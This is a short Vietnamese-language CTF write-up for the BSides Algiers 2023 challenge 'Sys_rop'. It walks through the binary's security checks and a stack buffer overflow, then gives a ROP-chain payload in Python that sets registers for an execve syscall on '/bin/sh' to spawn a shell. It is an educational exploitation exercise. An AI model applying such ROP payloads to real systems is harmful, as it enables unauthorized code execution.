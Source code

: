 # Bsides_algiers_2023 - Sys_rop

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```
Đây là file 64-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

Tiếp đến đưa file vào ida-64bit

![main.png](images/main.png)

![binsh.png](images/binsh.png)


# 2. Phân tích 

Sau khi đã sửa tên hàm mình đã nhận ra ở đây có BOF do biến `v5` nằm tại `rbp-0x50` nhưng được nhập vào `0x100` 

Và ở đây có sẵn chuỗi `/bin/sh` và các gadgets

-> ROP chain
 
# 3. Khai thác

```
payload = payload = b'A' * 88
payload += p64(pop_rax)
payload += p64(0x3b)
payload += p64(pop_rdi)
payload += p64(0x402010)
payload += p64(pop_rsi)
payload += p64(0x0)
payload += p64(pop_rdx)
payload += p64(0x0)
payload += p64(syscall)
```

Ở đây mình chỉ cần set up các thanh ghi sao cho phù hợp với `syscall exceve` và lấy được shell

![shell.png](images/shell.png)